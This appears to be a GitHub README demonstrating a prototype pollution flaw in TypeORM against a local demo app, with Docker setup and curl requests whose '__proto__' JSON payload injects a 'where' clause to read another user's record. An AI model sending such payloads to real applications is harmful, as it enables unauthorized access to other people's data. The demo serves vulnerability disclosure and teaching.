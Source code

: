 # Prototype Pollution in TypeORM 

Prototype Pollution in TypeORM can lead to SQL Injection attacks in both MongoDB and MySQL types of databases, as well as Denial of Service or escalate to other types of attacks for a vulnerable Node.js web application.

## Requirements

You'll need a MySQL server running. Try this:
sgdsagadsgsdag
```sh
# use mysql:5 as that still supports the good old native password mechanism to login
# and keep things simple for the demo
docker run -p3306:3306 --rm --name mysqld -e MYSQL_ROOT_PASSWORD=root mysql:5
```

Create the dummy `acme` database:
```sh
create database acme;
```

For the MySQL client (to browse database records and such):
```sh
docker exec -it mysqld mysql -uroot -p
```

## Setup

The root file `./typeorm-db.js` gets called when the app starts and seeds the database with 2 sample users.

## Exploit scenario

### Step 1 - Normal request

You can create new users via POST /users

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": "vvv",
	"role": "user"
}'
```

### Step 2 - A request to get your own profile

A request to get your own profile always results in your own user (right now hard-coded with id:1)

```sh
curl --request GET \
  --url http://localhost:3001/users \
  --header 'content-type: application/json'
```

### Step 3 - Poison the Object's prototype

We now send a request that creates a user, but poison the prototype chain through an insecure
merge of objects that happens within TypeORM's code, and results in `Object` having a `where` object property.

```sh
curl --request POST \
  --url http://localhost:3001/users \
  --header 'content-type: application/json' \
  --data '{
	"name": "a",
	"address": {
		"__proto__": {
			"where": {
				"id": "2",
				"where": null
			}
		}
	}
}'
```

### Step 4 - Fetch your profile again

Now go back to Step 1 and fetch the user profile again.
Now you get profile 2 instead of the hard-code profile id 1. Why does it happen?
Because with TypeORM's `where` clause takes precendence over the `id` specifier and we're now able to enumerate and get every account id we want.
